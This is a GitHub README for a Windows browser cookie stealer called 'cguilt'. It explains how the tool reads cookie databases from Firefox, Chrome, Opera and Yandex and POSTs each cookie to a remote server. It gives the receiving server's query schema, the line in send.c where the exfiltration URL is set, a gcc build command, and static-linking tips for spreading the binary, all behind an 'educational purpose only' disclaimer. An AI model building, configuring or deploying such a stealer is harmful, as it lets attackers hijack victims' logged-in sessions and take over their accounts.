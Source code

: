 # cguilt
Complete raw cookie stealer for MS Windows. Educational purpose only. Have runtime dependencies, such as `libcurl`. Binaries are not distributed for obvious reason. Also cookies are not decrypted for some reason, but I'm one hundred percent working on it. Maybe.

Working principe just pretty simple: first checks what browsers are currently installed on the local machine. There is only four variants for now *(Firefox, Chrome, Opera, Yandex)*, then reads their cookie file databases and sends content to your server through API requests. Really simple, huh.

If you want to build your own binary, click ![here](https://github.com/vulpes-solis/cguilt#build). You also you need a serverside to accept incoming POST requests with some query params in it. To check the template of incoming params, click ![here](https://github.com/vulpes-solis/cguilt#query-template).

## query template
In incoming API requests query schema has three parametrs:
1. `host`. Cookie host value. Cguilt sending cookies one-by-one, so the one request is the one cookie pair. String, max 128 chars long.
2. `value`. Cookies content value. String, max 1024 chars long.
3. `b_type`. Browser type. Not exactly every browsers here, but only Chromium in general (= 1) and Gecko (= 2).

## build
Install `libcurl` and `sqlite3` libs. Before compilation change destination server adress in 55th string in `send.c`:
```c
curl_easy_setopt(curl, CURLOPT_URL, "http://127.0.0.1:5000/api_post");
```
Compile everything.
```bash
$ gcc -o <name> main.c send.c `pkg-config --cflags --libs sqlite3 libcurl`
```
Also *if you want to distribute your own binary, which I one hundred percent condemn* you need to link the `libcurl` library as static, because it's required in runtime.

## quo vadis?
As it is can be somehow comnsidered harmful, the main purpose of this thing is practice and education. There is no goal of anything else. If you got a bug or just want to help to improve this thing - you are always welcome. Send bugreports in issues. 
